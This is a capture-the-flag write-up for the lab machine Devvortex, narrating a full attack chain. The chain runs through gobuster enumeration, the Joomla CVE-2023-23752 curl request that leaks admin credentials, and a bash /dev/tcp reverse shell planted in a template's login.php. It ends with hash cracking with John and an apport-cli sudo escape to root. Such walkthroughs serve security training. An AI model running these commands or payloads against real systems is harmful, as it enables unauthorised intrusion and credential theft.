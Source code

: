 ## Devvortex
### Description
**Author:** 7u9y     
**Difficulty:** Easy  
**Machine IP Address:** 10.10.11.242

### Walkthrough
We were given only an IP address for the machine. When I opened the IP address in the browser, I discovered a website running with **devvortex.htb** as the domain URL. Subsequently, I added both the domain and IP address to the **/etc/hosts** file, enabling access to the website using the domain. The figure below illustrates the format of the IP address and domain in the **/etc/hosts** file.

![Host](images/host.png)

Even though I knew the website port was opened, I still used nmap to check which ports were open and what services were running. Nmap showed that ports 22 and 80 were open, confirming there was a website on the server, just like when I tried to open it with the IP address.

![Nmap](images/nmap.png)

The website seemed like a portfolio website. I looked around, checking everything on the site, and even found a form that seemed like it could be useful. But when I checked the form, it turned out it didn't actually do anything. 

![Website](images/website.png)

![Form](images/form.png)

![Form HTML](images/form-html.png)

In the end, the website did not give any hints about how to get into the server. I thought maybe the clues were in another directory. So, I used a tool called **gobuster** to search through different directories on the server. I used a wordlist from seclists and the report will be outputed as a file called "gobuster-dir.o".  
`sudo gobuster dir --url devvortex.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster-dir.o`

![Gobuster Dir](images/gobuster-dir.png)

The results did not show any clues. Maybe, there is a subdomain that is related to the domain. To find the subdomain, we have two options: using subdomain enumeration or vhost enumeration with gobuster. When I tried using subdomain enumeration with the DNS command, the enumeration couldn't find a single subdomain related to the target domain. Consequently, I tried using the second option, which is vhost enumeration. "Vhost" is an abbreviated form of virtual hosting, a technique for hosting multiple domain names on a single server. We can include "append domain" to find the subdomain.

![Gobuster DNS](images/gobuster-dns.png)

The command for searching virtual host is `sudo gobuster vhost -u devvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -o gobuster-vhost.o`  

![Gobuster VHost](images/gobuster-vhost.png)

After that, we can append the recently found subdomain to the **/etc/hosts** file.

![Append Subdomain](images/subdomain.png)

Then, we can view the website pages and search for any features that may have vulnerabilities.

![Dev Website](images/dev-website.png)

Let's conduct another search through the directories in the subdomain using gobuster.  
`sudo gobuster dir --url dev.devvortex.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster-dir.o`

![Gobuster Subdomain Dir](images/gobuster-subdomain.png)

We can observe that numerous directories have been found. However, I came across an interesting directory here, named **administrator**. When we open this directory in the browser, the website indicates that it is running Joomla. 

![Joomla Website](images/joomla.png)

Consequently, we can scan the website using joomscan with the command `sudo joomscan --url http:/dev.devvortex.htb/administrator/`. Now, we know the version of Joomla from the scan result.

![Joomscan](images/joomscan.png)

Because we already know the version, we can search on Google for information about the exploit. I found a [website](https://vulncheck.com/blog/joomla-for-rce)  that discussed the exploit. Joomla has a code execution vulnerability documented in CVE-2023-23752. It has a proof of concept demonstrated by using this command: `curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true`.  I employed the exploit command on the machine using the **dev.devvortex.htb** subdomain.

![Curl](images/curl.png)

Here, we discovered the username and password to log in to the administrator web page. The username is **lewis**, and the password is **P4ntherg0t1n5r3c0n##**. Now, we are inside the admin page.

![Admin Page](images/admin.png)

When we go to `System > Administrator Templates > Atum Details and Files`, we can see the login PHP file that we just used for logging in. Because Joomla is vulnerable to code execution, we can run codes from the PHP file. Therefore, I added reverse shell codes `system('bash -c "bash -i >& /dev/tcp/[Your Machine IP Address]/1234 0>&1"');` to the **login.php** file and saved it using the **Save and Close** button.

![Added Reverse Shell](images/reverse-shell.png)

Then, I set up netcat in listening state on port 1234, as indicated in the reverse shell code: `nc -lvnp 1234`.    

![Netcat](images/netcat.png)

Now, we can access the template's login page at `http://dev.devvortex.htb/administrator/templates/atum/login.php` to gain access to the system.  

![Foothold](images/foothold.png)

Next, we need to find the user flag. Although I found the user flag, we still need to leverage the permissions.

![Permission Denied](images/permission.png)

According to the CVE-2023-23752 exploit, it is mentioned that the credentials are for a MySQL account. Therefore, we can check the MySQL database for additional credentials. We will observe a database named **joomla**.

![Database](images/db.png)

Next, we can search the user table for the credentials. Then, we found Logan as the new username with his password.  

![Credentials](images/cred.png)

Unfortunately, we cannot use the password as it is hashed. To crack it, we will use John the Ripper password cracker. First, I copy and paste Logan's hashed password into a file named hash.txt. Then, we can crack it using common wordlists. The result of the cracked password is saved in a file called cracked.txt.  
`sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt > cracked.txt`

![Cracked](images/cracked.png)

We can then log in using Logan's account and read the user flag.

![User Flag](images/user.png)

For a better shell, we can SSH to the server using Logan's account and examine the sudo permissions to gather clues about obtaining a root shell.  

![SSH](images/ssh.png)

After obtaining information about the sudo permissions, the apport-cli binary can be run by all users. So, I searched for the exploit of this binary. I found a [website](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb) about the exploit. that has the exploit. From that proof of concept (PoC), I created a report named crash.log, pressed V, and entered **!/bin/bash**. I was able to obtain root access.  

![Root Access](images/root-access.png)

Then, I went to the root directory to obtain the root flag.

![Root](images/root.png)

Finally, this machine has been pwned :slightly_smiling_face:
